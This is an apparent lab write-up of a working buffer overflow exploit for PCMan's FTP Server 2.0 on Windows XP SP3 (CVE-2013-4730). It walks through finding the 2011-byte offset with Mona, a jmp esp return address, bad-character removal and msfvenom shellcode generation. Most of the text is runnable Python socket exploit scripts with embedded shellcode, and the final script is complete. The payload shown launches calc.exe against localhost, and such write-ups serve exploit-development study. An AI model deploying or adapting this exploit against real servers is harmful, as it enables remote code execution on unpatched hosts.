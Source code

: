 # PCMan's FTP Server 2.0 - Win XP SP3 - Buffer Overflow

-   cve details: CVE-2013-4730
-   Target: PCMan's FTP Server 2.0
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I run target and check it. it's a program for use FTP.I open a .py file and in first time,I need a socket for connection with this program.

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*100

s.send(exploit)
print s.recv(1024)
s.close()
```

After run exploit.py ,program get my buffer:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/1.jpg)


When Buffer increase to 3000, program crash and EIP chang to 41414141 :

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/2.jpg)


Now I run Immunity and use Mona for detecte exactly location of overflow . For this I run !mona pc 3000:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/3.jpg)

After create pattern ,I copy Ascii section in my exploit (instead of "A"*3000) and run target in Immunity and run exploit.py . Target crash and I copy EIP to !mona po EIP:


![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/4.jpg)

Buffer is 2011 and I need check it for this my exploit is: 

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*2011 + "BBBB" + "C"*100

s.send(exploit)
print s.recv(1024)
s.close()
```

everything is OK. EIP=42424242 and after it we have in Stack. 

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/5.jpg)

Now I need add shellcode and find address for "jmp esp" to point stack. My shellcode is run calc and its OK and for address I use MONA:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/6.jpg)

after find jump to stack, Now I complet my exploit:

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*2011 + "\xd9\x2f\xe3\x74" + "\x90"*8+("\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
"\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
"\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
"\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
"\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
"\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
"\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
"\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
"\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
"\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
"\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
"\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
"\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
"\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
"\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
"\xf3\x07")


s.send(exploit)
print s.recv(1024)
s.close()
```

After run exploit on the target , Program only crash and it not run calc. I check it and I find problem.In my shellcode , there are some bad characters.
Badcharacters are some charactesr ,because broken shellcode. This characters is defferent for evry program. For example,in the bruteforce program,our input
like this: user:pass , program read input and split user and password with ":". Now if we exploit this program and in our shellcode have ":",shellcode broken
and don't run. For solve this problem we nhave to steps:1- detect Badcharacters ,2- remove it.For first step I use Mona and second step use msfvenum.\

For detect Badcharacters have 2 method:\
1- manually\
2- Automatically.\
In manually ,We create all 256 characters and add to exploit and Run it and check in stack. And in Automatically method , using tools like Mona.\
I use Mona for this stage. For detect Badcharacters with Mona,we are several steps:\
1- Create a folder like Mona and run this Command: !mona config -set workingfolder c:\mona\%p   (this step optionally. %p use for create automatically folder by project name)\
2- Create all 256 Byte: !mona bytearray (its create in workingfolder c:/mona/projectname)\
3- compare bytearray file with program buffer : !mona compare -f C:\mona\PCManFTPD2\bytearray.bin -a stack_address\
4- Mona check badcharacters and show.\
5- remove badcharacters from bytearray and create new witout it: !mona bytearray -cpb 'Badchar'\
6- go to steps 3\


![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/7.jpg)

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/8.jpg)

now I need change my exploit. first copy it to c:/mona and change it to :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))


badchar=open('PCManFTPD2/bytearray.bin','rb').read()
exploit= "USER: "+"A"*2005 + "\xd9\x2f\xe3\x74" + "\x90"*8 + badchar


s.send(exploit)
print s.recv(1024)
s.close()


```

Now run target in Immunity and run exploit.py. after crash , I use compare command. for this command I need address (stack address)


![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/9.jpg)


Now I run compare command ,and Mona detect badchar : 

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/10.jpg)


00 is badcharacters. Now I create new Bytearray without this char:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/11.jpg)


I repeat this steps and for some case Mona don't work correctlly. For this reason, I use manully method. I run exploit and check characters without
Mona. If char is valid in buffer is ok but if char change to 0000 or corrupt buffer it's badchar. I find \x00\x0a\x0d\xff.

Now we need a shellcode without this characters. I use msfvenum.

```
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe  -f c -b '\x00\x0a\x0d\xff'
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/12.jpg)

Now all thing is OK. I change exploit to :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*2011 + "\xd9\x2f\xe3\x74" + "\x90"*8+(\xbb\xb2\x24\x22\xfb\xdb\xd2\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x31\x31\x5a\x13\x83\xc2\x04\x03\x5a\xbd\xc6\xd7\x07\x29\x84"
"\x18\xf8\xa9\xe9\x91\x1d\x98\x29\xc5\x56\x8a\x99\x8d\x3b\x26"
"\x51\xc3\xaf\xbd\x17\xcc\xc0\x76\x9d\x2a\xee\x87\x8e\x0f\x71"
"\x0b\xcd\x43\x51\x32\x1e\x96\x90\x73\x43\x5b\xc0\x2c\x0f\xce"
"\xf5\x59\x45\xd3\x7e\x11\x4b\x53\x62\xe1\x6a\x72\x35\x7a\x35"
"\x54\xb7\xaf\x4d\xdd\xaf\xac\x68\x97\x44\x06\x06\x26\x8d\x57"
"\xe7\x85\xf0\x58\x1a\xd7\x35\x5e\xc5\xa2\x4f\x9d\x78\xb5\x8b"
"\xdc\xa6\x30\x08\x46\x2c\xe2\xf4\x77\xe1\x75\x7e\x7b\x4e\xf1"
"\xd8\x9f\x51\xd6\x52\x9b\xda\xd9\xb4\x2a\x98\xfd\x10\x77\x7a"
"\x9f\x01\xdd\x2d\xa0\x52\xbe\x92\x04\x18\x52\xc6\x34\x43\x38"
"\x19\xca\xf9\x0e\x19\xd4\x01\x3e\x72\xe5\x8a\xd1\x05\xfa\x58"
"\x96\xfa\xb0\xc1\xbe\x92\x1c\x90\x83\xfe\x9e\x4e\xc7\x06\x1d"
"\x7b\xb7\xfc\x3d\x0e\xb2\xb9\xf9\xe2\xce\xd2\x6f\x05\x7d\xd2"
"\xa5\x66\xe0\x40\x25\x47\x87\xe0\xcc\x97")


s.send(exploit)
print s.recv(1024)
s.close()
```

After run exploit.py, It don't run calc.exe. I check it and understand my buffer is small for shellcode and shellcode is broken.
for solve this problem I change junk and shellcode and after EIP I use some command to go my shellcode.

junk + EIP + NOP + Shellcode -> NOP + shellcode + EIP + NOP + jumptoshellcode

For this only need jumptoshellcode and implement it I use this command "sub    esp,0x5e " and "jmp    esp". But here is I have two steps:\
1- change this Assambly to opcode(x86) -> use Immunity and add this to a line or use this [site](https://defuse.ca/online-x86-assembler.htm)\
2- How many ,I need to recive my shellcode. -> I use manually and check it.\

In the final,My exploit is :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))


shellcode=("\xbf\x9f\x6d\xb4\x7d\xda\xcb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
"\x31\x31\x7a\x13\x03\x7a\x13\x83\xea\x63\x8f\x41\x81\x73\xd2"
"\xaa\x7a\x83\xb3\x23\x9f\xb2\xf3\x50\xeb\xe4\xc3\x13\xb9\x08"
"\xaf\x76\x2a\x9b\xdd\x5e\x5d\x2c\x6b\xb9\x50\xad\xc0\xf9\xf3"
"\x2d\x1b\x2e\xd4\x0c\xd4\x23\x15\x49\x09\xc9\x47\x02\x45\x7c"
"\x78\x27\x13\xbd\xf3\x7b\xb5\xc5\xe0\xcb\xb4\xe4\xb6\x40\xef"
"\x26\x38\x85\x9b\x6e\x22\xca\xa6\x39\xd9\x38\x5c\xb8\x0b\x71"
"\x9d\x17\x72\xbe\x6c\x69\xb2\x78\x8f\x1c\xca\x7b\x32\x27\x09"
"\x06\xe8\xa2\x8a\xa0\x7b\x14\x77\x51\xaf\xc3\xfc\x5d\x04\x87"
"\x5b\x41\x9b\x44\xd0\x7d\x10\x6b\x37\xf4\x62\x48\x93\x5d\x30"
"\xf1\x82\x3b\x97\x0e\xd4\xe4\x48\xab\x9e\x08\x9c\xc6\xfc\x46"
"\x63\x54\x7b\x24\x63\x66\x84\x18\x0c\x57\x0f\xf7\x4b\x68\xda"
"\xbc\xa4\x22\x47\x94\x2c\xeb\x1d\xa5\x30\x0c\xc8\xe9\x4c\x8f"
"\xf9\x91\xaa\x8f\x8b\x94\xf7\x17\x67\xe4\x68\xf2\x87\x5b\x88"
"\xd7\xeb\x3a\x1a\xbb\xc5\xd9\x9a\x5e\x1a")

numberof=2011-len(shellcode)
jumptoshellcode="\x83\xec\x5e\x83\xec\x5e\x83\xec\x5e\x83\xec\x5e\xff\xe4\x90\x90"
exploit= numberof * '\x90' + shellcode + "\xd9\x2f\xe3\x74" + "\x90"*8 + jumptoshellcode



s.send(exploit)
print s.recv(1024)
s.close()

```
![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/13.jpg)

